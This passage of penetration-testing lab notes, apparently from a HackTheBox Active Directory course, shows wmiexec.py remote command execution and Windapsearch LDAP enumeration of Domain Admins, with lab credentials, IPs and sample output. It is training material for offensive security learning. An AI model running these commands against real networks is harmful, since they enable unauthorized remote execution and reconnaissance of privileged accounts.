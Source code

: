 **wmiexec.py**

Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page), this is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems.

```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Windapsearch

[Windapsearch](https://github.com/ropnop/windapsearch) is a Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries

The `--da` (enumerate domain admins group members ) option and the `-PU` ( find privileged users) options. The `-PU` option is interesting because it will perform a recursive search for users with nested group membership.

**Windapsearch - Domain Admins**

```
ElFelixio@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da

[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 u:INLANEFREIGHT\forend
[+] Attempting to enumerate all Domain Admins
[+] Using DN: CN=Domain Admins,CN=Users.CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+]	Found 28 Domain Admins:

```